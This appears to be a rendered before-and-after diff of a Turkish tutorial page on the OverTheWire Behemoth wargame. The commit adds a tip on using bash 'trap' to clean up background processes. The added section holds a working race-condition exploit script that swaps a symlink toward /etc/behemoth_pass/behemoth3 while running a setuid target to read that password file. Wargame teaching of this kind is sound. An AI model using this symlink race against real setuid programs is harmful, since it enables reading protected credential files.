

Before and after one commit to waitaseC137/linux_learning, a Markdown page: konu_anlatimlari/behemoth/modul2_race_condition.md, the part around the change. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Enhance race condition script with cleanup tips
Added a pro-tip section on using 'trap' in race condition scripts to prevent zombie processes and ensure cleanup.

````diff
--- a/konu_anlatimlari/behemoth/modul2_race_condition.md
+++ b/konu_anlatimlari/behemoth/modul2_race_condition.md
@@ -218,11 +218,59 @@ ltrace /behemoth/behemoth4 2>&1 | grep fopen
 ```bash
 rm -f /tmp/behemoth2.* /tmp/behemoth4.*
 ```
+---
+### 💡 Pro-Tip: Temiz ve Güvenli Race Scriptleri (`trap` Kullanımı)
 
----
+Race condition zafiyetlerini sömürürken en sık kullandığımız yöntem, arka planda sonsuz döngüler (`while true; do ... done &`) başlatarak sembolik linkleri (symlink) saliseler içinde sürekli değiştirmektir. Ancak yeni başlayanların yaptığı en büyük hata, exploit başarılı olduğunda veya `Ctrl+C` ile scripti durdurduğunda arka plandaki bu süreçleri kendi haline bırakmaktır.
+
+#### 🧟‍♂️ Sunucuyu Kitleyen Zombi Süreçler
+Eğer arka plandaki döngü sürecini (process) manuel olarak öldürmezseniz, siz exploit scriptinden çıksanız bile o döngü arka planda işlemciyi (CPU) son hızda tüketmeye devam eder. Paylaşımlı CTF veya OverTheWire gibi wargame sunucularında arkada onlarca zombi süreç bırakmak, sunucunun tamamen kilitlenmesine yol açar ve diğer oyuncuların platformu kullanmasını engeller (bu durum genellikle platform adminleri tarafından banlanma sebebidir).
+
+#### 🛠️ Çözüm: Bash `trap` Mekanizması
+Yazdığın exploit scriptinin başına bir `trap` (tuzak/yakalayıcı) ekleyerek, script herhangi bir sebeple kapandığında (ister sen `Ctrl+C` yap, ister script hata verip kapansın) arka plandaki tüm süreçlerin ve geçici dosyaların **otomatik olarak** temizlenmesini sağlayabilirsin.
+
+İşte endüstri standartlarında, temiz bir race condition exploit scripti şablonu:
+
+```bash
+#!/bin/bash
+
+# Script sonlandırıldığında çalışacak temizlik fonksiyonu
+temizlik() {
+    echo -e "\n[!] Sinyal yakalandı! Temizlik yapılıyor, zombi süreçler öldürülüyor..."
+    # Arka plandaki race sürecini öldür
+    kill $RACE_PID 2>/dev/null
+    # /tmp altında oluşturulan geçici dosyaları temizle
+    rm -f /tmp/behemoth2.*
+    exit
+}
+
+# INT (Ctrl+C), TERM (Kapatma) ve EXIT (Normal çıkış) sinyallerini yakala,
+# bu sinyaller geldiğinde yukarıdaki 'temizlik' fonksiyonunu çalıştır.
+trap temizlik INT TERM EXIT
+
+# 1. Sembolik link değiştirme döngüsünü ARKA PLANDA (&) başlat
+while true; do
+    ln -sf /tmp/guvenli /tmp/tuzak
+    ln -sf /etc/behemoth_pass/behemoth3 /tmp/tuzak
+done &
+
+# 2. En son başlatılan arka plan sürecinin PID'sini (Process ID) kaydet
+RACE_PID=$!
+
+echo "[+] Race condition döngüsü arka planda başladı. (PID: $RACE_PID)"
+echo "[+] Hedef program tetikleniyor..."
+
+# 3. Ana saldırı döngüsü (hedef programı defalarca çalıştır)
+for i in $(seq 1 200); do
+    /behemoth/behemoth2 /tmp/tuzak 2>/dev/null
+done
+
+# Script normal olarak bitse bile en üstteki trap mekanizması devreye girer
+# ve arka plandaki süreci tertemiz arkasında iz bırakmadan kapatır.
+```
+Bu refleksi kazanmak, sadece CTF sunucularında saygı görmeni sağlamaz; gerçek dünya sızma testlerinde (pentest) arkanda çalışan zombi süreçler bırakarak hedef sistemi çökertme riskini de sıfıra indirir.
 
 ## Özet
-
 ```
 Race Condition (TOCTOU)
          │
````
